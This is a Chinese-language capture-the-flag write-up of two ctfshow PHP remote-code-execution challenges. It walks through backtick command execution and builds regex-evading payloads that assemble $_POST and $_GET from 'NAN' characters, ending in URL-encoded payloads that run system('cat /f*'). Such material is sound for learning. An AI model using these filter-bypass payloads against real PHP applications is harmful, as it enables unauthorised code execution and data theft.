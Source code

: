```yaml
---
title: ctfshow RCE极限挑战
date: 2024-10-10 19:50:41
permalink: /pages/286e6c/
sidebar: false
author: 
  name: Cola
  link: https://the0n3.top
---
```


## RCE挑战1

::: tip
php里可以使用反引号执行命令，比如`ls`;
:::

过滤`(`，`.`，相当于过滤了函数执行和文件名

可以直接echo 把反引号的结果打印出来

```sh
echo `cat /f*`;
```

也可以反引号执行命令，把结果写到文件里，再下载

```sh
`cat /f* > 1`;
```

![1](https://the0n3.top/medias/show-rce/1.png)


## RCE挑战2

正则过滤了很多字符
```php
if (!preg_match("/[a-zA-Z0-9@#%^&*:{}\-<\?>\"|`~\\\\]/",$ctfshow)){
            eval($ctfshow);
        }
```

ASCII码总共包括128个字符，范围是从0到127。扩展ASCII（通常称为“ANSI”或“ISO 8859-1”）则包含256个字符，范围是从0到255。这些字符包括控制字符、数字、字母和一些特殊符号

通过脚本爆破还有哪些字符可以使用

```php
<?php
for($a = 0; $a < 256; $a++){
    if (!preg_match("/[a-zA-Z0-9@#%^&*:{}\-<\?>\"|`~\\\\]/",chr($a))){
        echo chr($a)." ";
    }
}
# $ ' ( ) + , . / ; = [ ] _
?>
```
构造出字母

::: tip 
(_/_) 表达式中的 _ 是 PHP 中的有效变量名，但在这个上下文中它被视为未定义变量。
当未定义变量用于数学运算时，PHP会将其视为0。因此，_/_ 实际上会被计算为 0/0，这是一个无效操作，结果是 NAN（Not A Number）所以可以得到字符`NAN`。(''/'')等效果相同，得到字符`NAN`.
:::

通过判断的布尔值`0`,`1`构造数字，拿出`NAN`字符串里的字母

例如`''==_`，布尔值为`0`，那么`$____=((_/_).'')[''=='$'];`可以拿出`N`

构造`$_POST[_]`,`$_POST[__]`，动态调用函数RCE

师傅们写好的`POST`构造

```php
$____=((_/_).'')[''=='$']; #N
$_____=++$____; #O
++$____; #P
$______=$____; #$______=P
++$____; #Q
++$____; #R
++$____; #S
$_______=$____; #$_______=S
++$____; #T
$________=$____; #$________=T
$_________=$______.$_____.$_______.$________; #POST
$_________='_'.$_________; #_POST
$$_________[_]($$_________[__]); #$_POST[_]($_POST[__];)
```

所以payload是下面这个，里面有`$`,`=`还需要url编码一下
```php
$____=((_/_).'')[''=='$'];$_____=++$____; ++$____;$______=$____; ++$____;++$____;++$____; $_______=$____;++$____;$________=$____;$_________=$______.$_____.$_______.$________;$_________='_'.$_________;$$_________[_]($$_________[__]);
```

这里执行命令的payload

```php
ctf_show=%24____%3D((_%2F_).'')%5B''%3D%3D'%24'%5D%3B%24_____%3D%2B%2B%24____%3B%20%2B%2B%24____%3B%24______%3D%24____%3B%20%2B%2B%24____%3B%2B%2B%24____%3B%2B%2B%24____%3B%20%24_______%3D%24____%3B%2B%2B%24____%3B%24________%3D%24____%3B%24_________%3D%24______.%24_____.%24_______.%24________%3B%24_________%3D'_'.%24_________%3B%24%24_________%5B_%5D(%24%24_________%5B__%5D)%3B&_=system&__=cat /f*;
```

因为`0/0`得到`NAN`字符串，所以`GET`应该也挺好构造，尝试一下`$_GET[_]`,`$_GET[__]`

我的构造过程

```php
<?php
# 三个下划线定义N，四个定义A，五个定义E，六个定义G，七个定义T，八个定义_GET。当然你可以选择变量覆盖
$___=((''/'').'')[''==_];# $___ = N
$____=((''/'').'')[''==''];# $____ = A
# 拿A 构造E
++$____;
++$____;
++$____;
$_____=++$____; 
var_dump($_____); # $_____ = E
# 继续拿G
++$____;
++$____;
$______ = $____;
var_dump($______); # $______ = G

# 拿N 构造 T
++$___;++$___;++$___;++$___;++$___;
$_______=++$___;
var_dump($_______);# $______ = T

# 拼接拿_GET
$________='_'.$______.$_____.$_______;
var_dump($________); # _GET
# 用_GET动调函数
$$________[_]($$________[__]);
var_dump($$________[_]($$________[__]));
```

简洁版
```php
<?php
$___=((''/'').'')[''==_];# $___ = N
$____=((''/'').'')[''==''];# $____ = A
++$____;
++$____;
++$____;
$_____=++$____; # $_____ = E

++$____;
++$____;
$______ = $____; # $______ = G

++$___;++$___;++$___;++$___;++$___;
$_______=++$___; # $______ = T# 

$________='_'.$______.$_____.$_______;
$$________[_]($$________[__]); # $_GET[_]($_GET[__])
```

所以payload是下面这个，里面有`$`,`=`还需要url编码一下

```php
$___=((''/'').'')[''==_];$____=((''/'').'')[''==''];++$____;++$____;++$____;$_____=++$____;++$____;++$____;$______ = $____;++$___;++$___;++$___;++$___;++$___;$_______=++$___;$________='_'.$______.$_____.$_______;$$________[_]($$________[__]);
```

post发包，get传参命令执行`url?_=system&__=cat /f*`

```php
ctf_show=%24___%3D((''%2F'').'')%5B''%3D%3D_%5D%3B%24____%3D((''%2F'').'')%5B''%3D%3D''%5D%3B%2B%2B%24____%3B%2B%2B%24____%3B%2B%2B%24____%3B%24_____%3D%2B%2B%24____%3B%2B%2B%24____%3B%2B%2B%24____%3B%24______%20%3D%20%24____%3B%2B%2B%24___%3B%2B%2B%24___%3B%2B%2B%24___%3B%2B%2B%24___%3B%2B%2B%24___%3B%24_______%3D%2B%2B%24___%3B%24________%3D'_'.%24______.%24_____.%24_______%3B%24%24________%5B_%5D(%24%24________%5B__%5D)%3B
```
![2](https://the0n3.top/medias/show-rce/2.png)


参考

- [RCE极限挑战](https://fushuling.com/index.php/2023/08/20/ctfshow%E5%88%B7%E9%A2%98%E8%AE%B0%E5%BD%95%E6%8C%81%E7%BB%AD%E6%9B%B4%E6%96%B0%E4%B8%AD/)